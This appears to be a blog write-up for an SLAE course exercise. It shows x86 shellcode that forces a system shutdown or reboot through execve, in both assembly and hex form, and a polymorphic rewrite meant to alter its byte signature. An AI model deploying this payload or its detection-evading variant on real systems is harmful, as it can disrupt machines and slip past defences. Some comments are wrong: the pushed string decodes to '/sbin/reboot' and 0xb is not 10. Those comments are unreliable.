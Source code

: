 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 3 Shutdown
subtitle: Polymorphic Shellcode Part 3
tags: [SLAE]
---
```


Overview
======

The final chosen shellcode from shell-storm is the 'shutdown' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-831.php). This shellcode shuts down the system it is ran on, by utilising the 'execve' syscall with the 'shutdown' command found within sbin. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor eax, eax	; clear eax
push eax	; push eax to stack (0)
push 0x746f6f62	; push /sbin/shutdown to stack
push 0x65722f6e ;
push 0x6962732f ;
mov ebx, esp	; stack pointer to ebx pointing to /sbin/shutdown
push eax	; push eax to stack (0)
push word 0x662d 	; pushw - push '-f' to stack
mov esi, esp	; move stack pointer to esi pointing to -f on the stack
push eax	; push eax to stack (0)
push esi	; push esi to stack, pointer to -f
push ebx	; push ebx, /sbin/shutdown
mov ecx, esp	; put stack pointer into ecx for struct parameter
mov al, 0xb	; move 10 to eax for the execve syscall
int 0x80	;interupt to syscall
	
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen full annotated below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor edx, edx   ; clearing the edx register
push edx       ; push edx to stack (0)

mov eax, 0x746f6f62        ; move /sbin/shutdown to eax and push eax bit by bit
push eax
mov eax, 0x65722f6e
push eax
mov eax, 0x6962732f
push eax
mov ebx, esp   ; stack pointer to ebx pointing to /sbin/shutdown
push edx       ; push edx to stack (0)

push word 0x662d ; pushw - push '-f' to stack
mov ecx, esp   ; move stack pointer to esi pointing to -f on the stack
push edx       ; push edx to stack (0)
push ecx       ; push ecx to stack, pointer to -f
push ebx       ; push ebx, /sbin/shutdown
mov ecx, esp   ; put stack pointer into ecx for struct parameter

mul edx	       ; edx (0) * ax, clearing eax register
mov al, 0xb    ; move 10 to eax for the execve syscall
int 0x80       ; interupt to syscall
```

Again, with this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the code was bloated a bit. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 

When compiled and the extracted, the shellcode appears as follows:

Original

```
"\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\x52\xb8\x62\x6f\x6f\x74\x50\xb8\x6e\x2f\x72\x65\x50\xb8\x2f\x73\x62\x69\x50\x89\xe3\x52\x66\x68\x2d\x66\x89\xe1\x52\x51\x53\x89\xe1\xf7\xe2\xb0\x0b\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 
